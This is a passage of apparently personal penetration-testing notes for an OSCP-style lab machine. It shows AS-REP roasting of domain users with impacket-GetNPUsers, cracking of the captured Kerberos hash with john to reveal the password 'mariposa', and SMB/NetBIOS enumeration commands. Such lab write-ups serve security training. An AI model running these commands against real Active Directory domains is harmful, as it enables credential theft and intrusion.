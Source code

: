 Now to try these users with impacket

```sh
impacket-GetNPUsers oscp.exam/ -dc-ip 192.168.140.100 -usersfile users -no-pass -format john -outputfile hash
```
	got hash for nate
![[Pasted image 20231219132413.png]]

Hope auto hash works
```
john hash
```
Yes

└╼parrot$john hash --show
$krb5asrep$nate@oscp.exam@OSCP.EXAM:mariposa

1 password hash cracked, 0 left

![[Pasted image 20231219132456.png]]

Password: `mariposa`

### 135/tcp  open  msrpc         Microsoft Windows RPC

### 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

```sh
enum4linux -a 192.168.140.100
```

```
sudo nmap -sU -sV -T4 --script nbstat.nse -p139 -Pn -n 192.168.140.100
```

```
nmblookup -A 192.168.140.100
```
	Nothing

### 389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)

### 445/tcp  open  microsoft-ds?

### 464/tcp  open  kpasswd5?

### 593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

### 636/tcp  open  tcpwrapped
